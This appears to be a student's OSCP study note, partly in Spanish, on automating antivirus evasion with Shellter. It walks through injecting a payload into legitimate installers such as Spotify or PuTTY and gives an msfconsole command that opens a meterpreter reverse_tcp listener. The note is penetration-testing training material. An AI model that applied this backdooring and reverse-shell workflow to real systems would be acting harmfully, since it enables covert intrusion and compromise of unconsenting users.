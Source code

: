 ## DESCRIPTION

Now that we have learned how to manually evade an AV via PowerShell, let's explore how to automate AV evasion payloads.

Shellter1 is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing antivirus software. It uses a number of novel and advanced techniques to backdoor a valid and non-malicious executable file with a malicious shellcode payload.

While the details of the techniques Shellter uses are beyond the scope of this Module, it essentially performs a thorough analysis of the target PE file and the execution paths. It then determines where it can inject our shellcode without relying on traditional injection techniques that are easily caught by AV engines. Those include changing of PE file section permissions, creating new sections, etc.

Finally, Shellter attempts to use the existing PE Import Address Table (IAT)2 entries to locate functions that will be used for the memory allocation, transfer, and execution of our payload.

INSTALL

```
sudo apt install shellter
sudo apt install wine
dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
```
#### Mas información
* https://github.com/ParrotSec/shellter


## EXPLOITATION

### OPTION 1: Auto mode

1. Seleccionamos el modo automático
![[Pasted image 20230510120705.png]]

2. Descargamos una aplicación donde vamos a encapsular el payload.
Algunas recomendadas son Spotify, Putty, etc.
![[Pasted image 20230510121321.png]]

3. Seleccionamos nuestra aplicación

![[Pasted image 20230510121514.png]]

4. Seleccionamos el modo Stealth y el modo de payload automaticos (se puede añadir uno custom)
![[Pasted image 20230510123251.png]]

5. Abrimos una reverse shell, en este caso de meterpreter

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```

Ejemplo Windows 11 con meterpreter:

![[Pasted image 20230510124219.png]]



## MACHINES

* Hack The Box: 
* OSCP: teoría AV Evasion
